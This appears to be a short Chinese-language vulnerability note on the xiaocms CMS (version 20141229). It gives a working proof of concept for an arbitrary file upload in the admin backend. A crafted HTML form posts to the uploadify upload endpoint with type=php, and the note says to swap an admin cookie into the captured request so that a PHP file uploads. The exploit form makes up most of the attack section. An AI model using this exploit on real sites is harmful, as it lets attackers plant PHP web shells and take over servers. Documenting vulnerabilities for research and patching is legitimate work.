


### xiaocms

```
版本信息：20141229
```

#### 后台任意文件上传

登录后台获取cookie

构造上传表单

```
<html>
    <body>
    <form action="http://192.168.81.195:10100/admin/index.php?c=uploadfile&a=uploadify_upload&type=php&size=1000" method="post" enctype="multipart/form-data">
    <input type="file" name="file" />
    <input type="submit" name="submit" value="submit" />
    </form>
</body>
</html>
```

上传php文件抓包，将管理员的cookie替换到请求包里即可成功上传文件





